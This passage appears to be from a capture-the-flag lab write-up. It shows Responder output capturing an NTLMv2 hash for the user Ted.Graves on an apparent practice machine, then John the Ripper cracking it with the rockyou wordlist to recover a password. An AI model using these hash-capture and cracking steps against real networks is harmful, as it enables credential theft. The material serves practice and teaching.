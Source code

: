      [+] HTTP Options:
     Always serving EXE         [OFF]
     Serving EXE                [OFF]
     Serving HTML               [OFF]
     Upstream Proxy             [OFF]

     [+] Poisoning Options:
     Analyze Mode               [OFF]
     Force WPAD auth            [OFF]
     Force Basic Auth           [OFF]
     Force LM downgrade         [OFF]
     Force ESS downgrade        [OFF]

     [+] Generic Options:
     Responder NIC              [tun0]
     Responder IP               [10.10.16.2]
     Responder IPv6             [dead:beef:4::1000]
     Challenge set              [random]
     Don't Respond To Names     ['ISATAP']

     [+] Current Session Variables:
     Responder Machine Name     [WIN-91UK7F1RWND]
     Responder Domain Name      [055T.LOCAL]
     Responder DCE-RPC Port     [46118] 

     [+] Listening for events...                                                                                                                                                                                      

     [HTTP] NTLMv2 Client   : 10.10.10.248
     [HTTP] NTLMv2 Username : intelligence\Ted.Graves
     [HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:6b8d0b1c5bc328f7:FA9F4228C061595A825CD3CF92B2F4E0:
     01010000000000006B99E0AB9457D901625E2B106F7F6EBC0000000002000800300035003500540001001E00570049004E0
     02D003900310055004B00370046003100520057004E0044000400140030003500350054002E004C004F00430041004C0003
     003400570049004E002D003900310055004B00370046003100520057004E0044002E0030003500350054002E004C004F004
     30041004C000500140030003500350054002E004C004F00430041004C000800300030000000000000000000000000200000
     B5F3481E099A39EABA73AD4A2AB9D4F6CC62A4CBA31C11EB0FB72396CDFB15B60A001000000000000000000000000000000
     0000009003E0048005400540050002F007700650062006100740072006500750073002E0069006E00740065006C006C0069
     00670065006E00630065002E006800740062000000000000000000                                                                                        
     [+] Exiting...

## [](header-2)Cracking john

     ❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
     Using default input encoding: UTF-8
     Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
     Will run 2 OpenMP threads
     Press 'q' or Ctrl-C to abort, almost any other key for status
     Mr.Teddy         (Ted.Graves)     
     1g 0:00:00:06 DONE (2023-03-15 17:28) 0.1631g/s 1764Kp/s 1764Kc/s 1764KC/s Mrz.elmo\\'sboo..Mr Bean
     Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
     Session completed.

obtuvimos credenciales validas
